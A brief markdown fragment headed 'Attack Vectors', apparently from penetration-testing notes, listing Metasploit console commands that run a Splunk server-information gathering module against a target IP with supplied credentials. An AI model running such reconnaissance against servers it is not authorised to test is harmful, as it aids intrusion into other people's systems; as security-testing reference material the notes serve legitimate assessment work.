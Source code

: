 # Attack Vectors

## Metasploit

```
msf > use auxiliary/gather/splunk_raw_server_info 

msf auxiliary(gather/splunk_raw_server_info) > set rhosts <IP>

msf auxiliary(gather/splunk_raw_server_info) > run username=<username> password=<password> verbose=true
```